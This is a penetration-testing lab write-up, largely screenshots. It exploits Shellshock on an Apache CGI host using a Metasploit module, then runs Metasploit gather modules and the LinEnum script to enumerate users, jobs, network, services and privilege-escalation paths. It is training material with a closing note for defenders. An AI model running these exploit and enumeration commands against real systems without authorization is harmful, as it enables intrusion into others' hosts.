# Automating Linux Local Enumeration

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target:** Linux host (Apache CGI, Shellshock)

## 1. Executive Summary

We automate Linux post-exploitation enumeration. After a **Shellshock** foothold
(`apache_mod_cgi_bash_env_exec`), we run the `linux/gather/*` Metasploit post modules
(configs, network, system info — stored in loot), then upload and run the **LinEnum** script
for a comprehensive automated report covering users, jobs, network, services, software and
interesting files.

## 2. Foothold (Shellshock)

```bash
db_nmap -sV <target>
```





The page uses a CGI timer script.





```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set TARGETURI /cgi-bin/<script>.cgi
exploit
```



## 3. Metasploit Post Modules

```bash
run post/linux/gather/enum_configs
```





```bash
run post/linux/gather/enum_network
```





```bash
run post/linux/gather/enum_system
```



## 4. LinEnum

Moving to a temp directory and uploading the LinEnum script.





```bash
chmod +x LinEnum.sh
./LinEnum.sh
```



### System



### Users & Groups







### Environment





### Jobs / Tasks







### Network





### Services









### Software



### Interesting Files







### Docker Check



## 5. Notes

LinEnum (and LinPEAS) automate what would otherwise be dozens of manual commands, quickly
surfacing privesc paths (SUID files, writable configs, cron jobs). The trade-off is noise —
defenders should monitor for script execution and mass enumeration.
